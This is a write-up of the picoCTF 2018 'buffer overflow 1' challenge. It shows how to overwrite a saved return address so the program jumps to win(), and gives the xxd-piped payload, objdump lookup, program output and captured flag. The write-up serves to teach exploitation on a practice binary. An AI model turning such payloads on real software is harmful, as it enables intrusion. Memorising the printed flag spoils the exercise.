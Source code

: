 ## Writeup for 2018 picoCTF: buffer overflow 1
Binary Exploitation, 200 points

### Problem
> Okay now you're cooking! This time can you overflow the buffer and return to the flag function in this [program](https://2018shell.picoctf.com/static/64108e53cad29c810b4f6b214d183a8a/vuln)? You can find it in /problems/buffer-overflow-1_2_86cbe4de3cdc8986063c379e61f669ba on the shell server. [Source](https://2018shell.picoctf.com/static/64108e53cad29c810b4f6b214d183a8a/vuln.c).

Our task is to overflow the buffer so that the return address of `vuln()` is changed to that of `win()`.  
Finding the location of `vuln()`'s return address involves some trial and error:  
```
echo "00000000: 6161 6161 6161 6161 6161 6161 6161 6161
      00000010: 6161 6161 6161 6161 6161 6161 6161 6161
      00000020: 1818 1818 1717 1717 1616 1616 1515 1515
      00000030: 1313 1313 1212 1212 1414 1414 1111 1111
      00000040: 1010 1010 0909 0909" | xxd -r | ./vuln
```
Output:  `Okay, time to return... Fingers Crossed... Jumping to 0x15151515`  

Observing the output it's clear that we should replace `1515 1515` with `win()`'s address, which we can find out is `0804 85cb` by `objdump -D vuln | grep win`  

Playing around it seems my machine is in Little Endian. So `cb85 0408` is the correct input, instead of `0804 85cb`.

### Solution:
```
objdump -D vuln | grep win;
echo "00000000: 6161 6161 6161 6161 6161 6161 6161 6161
      00000010: 6161 6161 6161 6161 6161 6161 6161 6161
      00000020: 1818 1818 1717 1717 1616 1616 cb85 0408
      00000030: 1313 1313 1212 1212 1414 1414 1111 1111
      00000040: 1010 1010 0909 0909" | xxd -r | ./vuln
Please enter your string: 
Okay, time to return... Fingers Crossed... Jumping to 0x80485cb
picoCTF{addr3ss3s_ar3_3asy56a7b196}Segmentation fault (core dumped)
```
**Flag: picoCTF{addr3ss3s_ar3_3asy56a7b196}**
